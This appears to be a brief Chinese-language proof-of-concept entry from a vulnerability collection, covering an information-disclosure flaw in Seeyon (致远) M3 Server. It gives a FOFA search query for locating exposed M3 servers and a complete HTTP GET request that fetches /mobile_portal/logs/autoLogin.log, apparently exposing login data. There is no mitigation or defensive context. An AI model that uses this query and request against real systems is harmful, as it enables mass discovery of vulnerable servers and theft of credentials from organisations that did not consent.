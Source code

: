 ## 致远M3敏感信息泄露漏洞


## fofa
```
title="M3-Server"
```

## poc
```
GET /mobile_portal/logs/autoLogin.log HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

![e5b392d5ab145b5acba296fcf2ea09c8](../../images/9e4e58b3-75d0-4f98-974b-391397fba2e4.png)
